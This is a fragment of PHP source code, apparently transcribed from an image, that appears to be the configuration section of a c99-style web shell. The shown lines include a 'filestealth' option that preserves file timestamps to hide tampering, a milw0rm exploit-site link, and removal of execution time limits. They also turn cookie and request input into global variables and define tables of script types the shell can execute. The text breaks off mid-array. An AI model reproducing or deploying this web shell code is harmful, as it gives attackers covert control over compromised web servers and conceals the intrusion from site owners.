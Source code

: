 $gzipencode  = TRUE;
$filestealth = TRUE; #TRUE, tidak merubah waktu modifikasi dan akses.
$hexdump_lines = 8;
$hexdump_rows = 24;
$millink = milw0rm();
$win = strtolower(substr(PHP_OS,0,3)) == "win";
$disablefunc = getdisfunc();
##[ END OF CONFIGS ]##
error_reporting(E_ERROR | E_PARSE);
@ini_set("max_execution_time",0);
@set_time_limit(0); #No Fx in SafeMode
@ignore_user_abort(TRUE);
@set_magic_quotes_runtime(0);
define("starttime",getmicrotime());
if (get_magic_quotes_gpc()) { strips($GLOBALS); }
$_REQUEST = array_merge($_COOKIE,$_GET,$_POST);
@$f = $_REQUEST["f"];
@extract($_REQUEST["exshcook"]);
foreach($_REQUEST as $k =&gt; $v) { if (!isset($$k)) { $$k = $v; } }
if ($surl_autofill_include) {
  $include = "&";
  foreach (explode("&",getenv("QUERY_STRING")) as $v) {
    $v = explode("=",$v);
    $name = urldecode($v[0]);
    $value = @urldecode($v[1]);
    foreach (array("http://","https://","ssl://","ftp://","\\\\") as $needle) {
      if (strpos($value,$needle) === 0) {
        $includestr .= urlencode($name)."=".urlencode($value)."&";
      }
    }
  }
}
if (empty($surl)) {
  $surl = "?".$includestr;
  $surl = htmlspecialchars($surl);
}
## FILE TYPES ##
$ftypes  = array(
  "html"     =&gt; array("html","htm","shtml"),
  "txt"      =&gt; array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"),
  "exe"      =&gt; array("sh","install","bat","cmd"),
  "ini"      =&gt; array("ini","inf","conf"),
  "code"     =&gt; array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"),
  "img"      =&gt; array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"),
  "sdb"      =&gt; array("sdb"),
  "phpsess"  =&gt; array("sess"),
  "download" =&gt; array("exe","com","pif","src","lnk","zip","rar","gz","tar")
);
$exeftypes  = array(
  getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"),
  "perl %f%"                =&gt; array("pl","cgi")
);
$regxp_highlight  = array(
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;font color=#FFFF00&gt;","&lt;/font&gt;"),
  array("\.tgz$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.gz$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.tar$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.bz2$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.zip$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.rar$",1,"&lt;font color=#C082FF&gt;","&lt;/font&gt;"),
  array("\.php$",1,"&lt;font color=#00FF00&gt;","&lt;/font&gt;"),